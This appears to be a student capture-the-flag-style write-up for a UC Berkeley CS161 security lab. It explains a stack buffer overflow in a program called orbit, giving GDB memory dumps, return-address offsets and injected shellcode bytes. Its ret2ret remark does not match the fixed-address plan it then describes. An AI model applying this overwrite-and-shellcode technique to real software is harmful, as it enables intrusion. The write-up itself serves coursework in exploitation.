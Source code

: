 # 07 - rigel Writeup

## Main Idea

credit: [984705 writeup](https://github.com/984705/UCB_CS161-2024/blob/main/project1/rigel/writeup.md)

The absolute address of program is random in alsr, but the relative address of program is fixed.
We can use ret2ret to bypass is.

![alt text](image.png)

## Magic Numbers

The address of buffer is `0xffffd698`, the RIP is `0xffffd6ac`, so the location of RIP is 20 bytes away from the start of the buffer (0xffffd6ac - 0xffffd698).

``` C++
(gdb) x/16x buf
0xffffd698:  0x00000000   0x00000000   0x00000000   0x00000000
0xffffd6a8:  0xffffd6b8   0x08049208   0x00000001   0x080491fd   
0xffffd6b8:  0xffffd73c   0x080493d6   0x00000001   0xffffd734   
0xffffd6c8:  0xffffd73c   0x0804a000   0x00000000   0x00000000
(gdb) i f
Stack level 0, frame at 0xffffd6b0:
 eip = 0x80491eb in orbit (orbit.c:5); saved eip = 0x8049208
 called by frame at 0xffffd6c0
 source language c.
 Arglist at 0xffffd6a8, args:
 Locals at 0xffffd6a8, Previous frame's sp is 0xffffd6b0
 Saved registers:
  ebp at 0xffffd6a8, eip at 0xffffd6ac
```

## Exploit Structure

Here is the stack diagram.

The exploit has three parts:

1. Write 20 dummy characters to overwrite `buf`, the compiler padding, and the sfp.
2. Overwrite the rip with the address of the shellcode. Since we are putting shellcode directly after the rip, we overwrite the rip with `0xffffd6b0` (`0xffffd6ac + 4`).
3. Finally, insert the shellcode directly after the rip.

This causes the `orbit` function to start executing the shellcode at address `0xffffd6b0` when it returns.

## Exploit GDB Output

When we ran GDB after inputting the malicious exploit string, we got the following output:

```C++
(gdb) x/16x buf
0xffffd698:  0x41414141   0x41414141   0x41414141   0x41414141
0xffffd6a8:  0x41414141   0xffffd6b0   0xcd58326a   0x89c38980
0xffffd6b8:  0x58476ac1   0xc03180cd   0x692d6850   0xe2896969
0xffffd6c8:  0x6d2b6850   0xe1896d6d   0x2f2f6850   0x2f686873
```
